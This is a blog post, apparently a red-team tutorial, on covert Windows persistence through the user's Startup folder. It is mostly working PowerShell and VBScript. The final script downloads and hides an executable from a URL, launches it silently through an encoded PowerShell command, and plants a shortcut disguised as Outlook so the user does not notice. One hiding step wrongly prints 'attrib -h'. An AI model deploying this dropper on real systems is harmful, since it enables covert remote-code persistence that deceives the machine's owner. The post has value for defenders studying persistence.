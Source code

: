 ```yaml
---
layout: post
title: Persistence using Startup Folder
excerpt_separator: <!--more-->
---
```


One of the most simple persistence methods when you have access as a non-administrative user is using the Startup folder. However, it is not so easy to go completely unnoticed by the legitimate user.

<!--more-->


Gists: 

- [Script to create files](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85)

- [Script to delete files](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153)

<br>

-------------------------------------------


## Intro

The easiest way to set this persistence method is dropping a file in the Startup Folder of the user, which is in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

This file can be an executable program (".exe" extension) but it can also be a Batch script (".bat" extension), Powershell script (".ps1" extension) or even a file shortcut (".lnk" extension). So if, for example, you copy the calc.exe binary from C:\Windows\System32\calc.exe to the mentioned Startup folder path, next time the user logs into the computer the calculator application will pop up.

From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...

<br>

## Executing a EXE without a window popping up

##### First fail: Powershell's window style hidden

For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program.

Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up, so first I tried to create a Batch file to execute the EXE file in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
```

The content of the file executes a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window (that is why we use "-windowstyle hidden"):

```
powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
```

What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option. 

Could we encode the Powershell command? Of course we could, but it is even better if we avoid the window appearing even for half a second.


##### Changing Powershell for VBScript

For that we will use a .VBS script, which will not pop any cmd window. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create a .VBS script with this content in the Startup folder, the program will get executed and there will be no window popping the user could ever see:

```
Set objShell = WScript.CreateObject(""WScript.Shell"")
objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
```


##### Shortcut files

But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the .VBS script is generated in other folder and we just leave a shortcut to it in the Startup folder. 

Furthermore, we will change the shortcut icon to a more reliable-looking one. We can do this using WScript:

```
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()
```

##### Hidden files

Finally, we know we will have four files:

- The shortcut file in the Startup folder.
- The icon file used by the shortcut file.
- The VBScript file called by the shortcut.
- The EXE file we wanted to execute in the system at startup.

We will drop the icon and EXE file and generate the shortcut and VBScript file, and the four files will be on disk. 

We can use the "hidden" attribute so the files are not visible in the folder (by default, but you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these files). We could use:

```
attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
```


It is important to notice that the shortcut file can not be "hidden", but the icon, VBScript and EXE files can.

<br>

## Final scripts

This process is automated in the following script:


```
$Url = "http://127.0.0.1:8080"
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Create directory
echo "Creating directory $Dir"
mkdir $Dir

## Download and hide .exe
wget $Url/$ExeFile -Outfile $Dir\$ExeFile
attrib +h $Dir\$ExeFile
cmd /c "dir $Dir"
cmd /c "dir /a $Dir"

## Create .vbs
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Dir+"/"+$ExeFile))
echo $B64Path
cmd /c "echo Set objShell = WScript.CreateObject(""WScript.Shell"") > ""$Dir\$VbsFile"""
cmd /c "echo objShell.Run(""powershell -e $B64Path""), 0, True >> ""$Dir\$VbsFile"""

## Download .ico and create .lnk
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()

## Hide .vbs and .ico
attrib +h "$Dir\$VbsFile"
attrib +h $Dir\$IcoFile
cmd /c "dir ""$Dir"""
cmd /c "dir /a ""$Dir"""
type "$Dir\$VbsFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```


And this is the script to delete the files:

```
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Unhidden and delete files from Dir
cmd /c "dir /a $Dir"
attrib -h $Dir\$ExeFile
attrib -h $Dir\$VbsFile
attrib -h $Dir\$IcoFile
del $Dir\$ExeFile
del $Dir\$VbsFile
del $Dir\$IcoFile
cmd /c "dir /a $Dir"

## Delete .lnk
del "$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```

However, before deleting these files the program must be stopped if it is already running:

```
tasklist | findstr notmalicious.exe
taskkill /f /pid PID
```

<br>
